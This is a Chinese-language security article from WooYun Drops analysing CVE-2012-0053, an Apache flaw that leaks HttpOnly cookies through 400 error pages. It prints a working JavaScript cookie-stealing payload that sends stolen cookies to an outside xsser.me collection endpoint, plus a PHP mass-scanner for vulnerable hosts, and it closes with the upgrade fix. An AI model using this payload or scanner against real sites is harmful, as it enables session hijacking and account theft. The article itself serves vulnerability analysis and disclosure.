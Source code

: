 # CVE-2012-0053 详解

2013/08/15 15:25 | [VIP](http://drops.wooyun.org/author/VIP "由 VIP 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

Apache 服务器 2.2.0-2.2.21 版本存在一个漏洞（CVE-2012-0053），攻击者可通过给网站植入超大的 Cookie，使得 HTTP 头超过 apache 的 LimitRequestFieldSize（最大请求长度）4192 字节，apache 便会返回 400 错误，状态页中就包含了 http-only 保护的 cookies。

## 0x01 详情

* * *

老外在 exploit-db 上公布了测试 apache 站点是否有这个问题的 js 代码。

[`www.exploit-db.com/exploits/18442/`](http://www.exploit-db.com/exploits/18442/)

代码稍微改一下就可以是一个收取 cookie 的 exp 了，看一下 xsser.me 的模块：

```
function setCookies() {
    /*apache server limit 8192*/
    var str = "";
    for (var i = 0; i < 819; i++) {
        str += "x";
    }
    for (i = 0; i < 10; i++) {
        var cookie = "ray" + i + "=" + str + ";path=/";
        document.cookie = cookie;
    }
}
function parseCookies() {
    if (xhr.readyState === 4 && xhr.status === 400) {
        var content = xhr.responseText.replace(/\r|\n/g, '').match(/<pre>(.+)<\/pre>/);
        content = content[1].replace("Cookie: ", "");
        cookies = content.replace(/ray\d=x+;?/g, '') try {
            var myopener = '';
            myopener = window.parent.openner.location;
            var myparent = '';
            myparent = window.parent.location;
        } catch(err) {
            myopener = '0';
            myparent = '0';
        }
        window.location = 'http://xsser.me/index.php?do=api&id={projectId}&location=' + escape(document.location) + '&toplocation=' + escape(myparent) + '&cookie=' + escape(cookies) + '&opener=' + escape(myopener);
    }
}
setCookies();
var xhr = window.XMLHttpRequest ? new XMLHttpRequest() : window.ActiveXObject ? new ActiveXObject("Microsoft.XMLHTTP") : new XMLHttpRequest();
xhr.onreadystatechange = parseCookies;
xhr.open("POST", "/?" + Math.random(), true);
xhr.send(null);

```

在执行这段代码后，会种下 10 个 819 字节长的 cookie，使得请求头超过最大请求长度，然后发起一次 POST 请求，待服务器返回 400 错误后从状态页中正则提取出经 http-only 保护的 cookies。

![2013081413015999698_png.jpg](img/img1_u122_jpg.jpg)

## 0x02 危害

* * *

关于此漏洞的利用，乌云上也有相关案例，如：

[WooYun: 腾讯分站 Apache 漏洞](http://www.wooyun.org/bugs/wooyun-2012-06947)

其实最经典的案例要数这个了：

[WooYun: XSS 漏洞渗透新浪微博《头条新闻》账号](http://www.wooyun.org/bugs/wooyun-2012-09777)

微博本身重要的 cookie 都设置了 httponly，但是有一个域名下有这个 apache 漏洞。

刚好也有一个 flash 的 xss，导致了此事件的发生。

## 0x03 后续

* * *

这个漏洞再次证明了：

本来是一个正常的功能，可因为设计不当成了 XSS 的帮凶。

下面的代码是之前的简单的写了一个验证是否存在这个漏洞的 php 脚本。

各位有需要的可以拿去使用下，现在估计存在这个问题的不多了，去年刚出来的时候可是大片存在。

```
<?php

//生成构造特殊 cookie
function cookie () {
    $str = "";
    for ($i=0; $i< 819; $i++) {
        $str .= "x";
    }
    $cookie= "secdragon=secdragon;path=/";
    for ($i = 0; $i < 10; $i++) {
         $cookie .= "xss".$i."=".$str.";path=/";
    }
    return $cookie;
    }

//获取 url，发包判断返回状态及结果
function my_get_http_result($url){
    if (empty($url)){
      return false;
    }
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, "$url");
    curl_setopt($ch, CURLOPT_TIMEOUT, 30); 
    curl_setopt($ch, CURLOPT_HEADER, 0); 
    curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);
    curl_setopt($ch, CURLOPT_COOKIE, cookie());
    $result = curl_exec($ch);
    $info = curl_getinfo($ch);
    curl_close($ch);
    if( $info['http_code'] == "400" )
        return $result;
    else{
        return '';
    }
}

//判断是否成功获取 cookie
function check($url){
    $a=my_get_http_result($url);
    if(strpos($a,'secdragon=secdragon'))
        echo $url.':success!'."<br/>";
    else{
        echo $url.':failed!'."<br/>";
    }
}

//获取需检测 ip，也可将 ip 放在同目录下的 ip.txt 中，一行一个 ip
$url=(@$_GET['url'])?$_GET['url']:@$argv[1];
if(!$url){
    $fp=fopen('ip.txt','r+');
    while($ipstr=fgets($fp)){
        if(preg_match('#[\w\.]+#',$ipstr,$match)){
            check($match[0]);
        }
    }
}else{
    check($url);
}

?>

```

## 0x04 修复方式

Apache2.2.22 及以上版本已经修复此问题，升级即可解决。

**Tags:** [httponly](http://drops.wooyun.org/tag/httponly), [xss](http://drops.wooyun.org/tag/xss)

版权声明：未经授权禁止转载 [VIP](http://drops.wooyun.org/author/VIP "由 VIP 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [Short XSS](http://drops.wooyun.org/papers/512)
*   [Bypass IE XSS Filter](http://drops.wooyun.org/tips/159)
*   [闲扯下午引爆乌云社区“盗窃”乌云币事件](http://drops.wooyun.org/papers/382)
*   [Zmap 详细用户手册和 DDOS 的可行性](http://drops.wooyun.org/tools/515)
*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)